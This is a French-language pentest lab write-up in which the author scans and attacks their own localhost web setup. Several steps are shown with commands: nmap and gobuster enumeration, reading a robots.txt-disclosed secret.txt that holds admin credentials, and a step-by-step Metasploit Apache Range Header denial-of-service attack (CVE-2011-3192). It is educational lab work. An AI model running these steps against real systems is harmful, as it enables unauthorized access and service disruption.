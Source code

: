 
[Maintenant que l'infrastructure est montée](Build_infra.md), on va mettre en place des scripts de pentest.


# Premiers scripts avec bash


Ayant plus de facilité et de rapidité avec un script *bash*, je vais essayer de les faire sur bash **vulnerability.sh** :

```bash
#!/bin/bash

sudo apt install nmap gobuster hping3

echo "[*] Scan de vulnérabilités sur http://localhost:8080"

echo "[+] Nmap vuln scan"
nmap -p 8080 --script vuln localhost

echo "[+] Gobuster - test de répertoires"
gobuster dir -u http://localhost -w /usr/share/wordlists/dirb/common.txt

echo "[✓] Terminé"
```

Résultat en omettant la partie installation : 

![Screen](Screen/resultat_script.png)

* Ce qu'il faut retenir :
	* vulnérabilité CVE 2011 3192
	* Dossier index.html (rien d'interessant) 
	* Dossier robots.txt


##  Partie offensive (intéressante)

Mettant nous à la place d'un hackeur, le plus simple et de regarder le partie robots.txt

```bash
└─$ curl localhost/robots.txt
User-agent: *
Disallow: /admin-backup/
```

Si on essaye de regarder la page web :

![Screen](Screen/admin-back.png)

* On va donc essayer d'énumérer les dossiers : 

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://localhost/admin-backup -w /usr/share/wordlists/dirb/common.txt -x .txt,.php 

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://localhost/admin-backup
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/secret.txt           (Status: 200) [Size: 56]
Progress: 13842 / 13845 (99.98%)
===============================================================
Finished
===============================================================
```

On trouve secret.txt, on va donc le lire :

```bash
curl http://localhost/admin-backup/secret.txt
Admin access :
login : user14526
mdp : fae984ùvê5:;a;
```

Attaque réussie, on a obtenu le login et le mot de passe caché dans un dossier

## CVE 2011 3192 

Il a plusieurs moyens d'exploiter une CVE :
- Regarder ces infos sur CVE et faire un script
- Regarder s'il existe un exploit sur un outil  comme nmap / metasploit...

Tant qu'on est sur nmap, on va regarder s'il existe un script pour du DOS (Denial of Service) sur le load balancing d'un nginx (c'est la vulnérabilité de la CVE.)


```bash
nmap --script http-vuln-cve2011-3192.nse [--script-args http-vuln-cve2011-3192.hostname=nmap.scanme.org] -pT:8080 localhost
```

Pas convaincu...

Essayant avec metasploit

```bash
sudo apt install metasploit-framework
msfconsole
msf6 > search cve:CVE-2011-3192  

Matching Modules
================

   #  Name                                 Disclosure Date  Rank    Check  Description
   -  ----                                 ---------------  ----    -----  -----------
   0  auxiliary/dos/http/apache_range_dos  2011-08-19       normal  No     Apache Range Header DoS (Apache Killer)
   1    \_ action: CHECK                   .                .       .      Check if target is vulnerable
   2    \_ action: DOS                     .                .       .      Trigger Denial of Service against target
```

Petit rappel : Un DOS (qui est l'attaque qu'on recherche) fait partie du module auxiliaire de msfconsole

Pour voir les options :

```bash
msf6 auxiliary(dos/http/apache_range_dos) > show options

Module options (auxiliary/dos/http/apache_range_dos):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   localhost        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RLIMIT   50               yes       Number of requests to send
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   THREADS  1                yes       The number of concurrent threads (max one per host)
   URI      /                yes       The request URI
   VHOST                     no        HTTP server virtual host


Auxiliary action:

   Name  Description
   ----  -----------
   DOS   Trigger Denial of Service against target



View the full module info with the info, or info -d command.
```

Avec la commannde **`info`** on peut voir une option

```bash
Available actions:
    Name   Description
    ----   -----------
    CHECK  Check if target is vulnerable
=>  DOS    Trigger Denial of Service against target
```

Pour mettre les options et lancer l'attaque DOS classique (la flèche au dessus indique que c'est DOS qui est utilisée lorsqu'on fait run) :

```bash
use auxiliary/dos/http/apache_range_dos
set RHOSTS localhost
set RPORT 80
run
```

Résultat de l'attaque : 

![Screen](wireshark_resultat_msf.png)

Ce qu'il y a d'intéressant :
* Tout est en local, sur wireshark le raccourci ::1
* ça envoie en boucle des trames
* En noir la trame qui n'a pas été envoyée

```bash
msf6 auxiliary(dos/http/apache_range_dos) > check
[-] This module does not support check.
[*] Checked 1 of 2 hosts (050% complete)
[-] This module does not support check.
[*] Checked 2 of 2 hosts (100% complete)
```

En testant de refresh la page de localhost, on a quand même accès aux deux sites web, avec cependant avec beaucoup de latence...

[On va essayer une injection SQL](Build_SQL)
